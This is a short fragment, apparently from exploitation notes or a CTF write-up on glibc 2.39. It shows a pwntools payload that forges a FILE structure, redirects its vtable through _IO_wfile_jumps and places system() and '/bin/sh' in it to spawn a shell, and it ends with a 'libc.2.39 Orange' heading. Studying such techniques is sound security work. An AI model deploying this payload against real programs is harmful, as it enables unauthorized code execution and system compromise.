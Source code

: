 ```python
pay = flat({
    0x00: 0,
    0x28: 0xffffffff,
    0x30: 1,
    0x70: b'/bin/sh',
    0x90: libc.sym['system'],
    0x98: libc.sym['_IO_2_1_stderr_']+0x70,
    0xa0: libc.sym['_IO_2_1_stderr_'],
    0xd8: libc.symbols['_IO_wfile_jumps'] + 0x30, # vtable # 可以控制虚表的走向
    0xe0: 0
}, filler=b"\x00")
```

‍

## libc.2.39 Orange
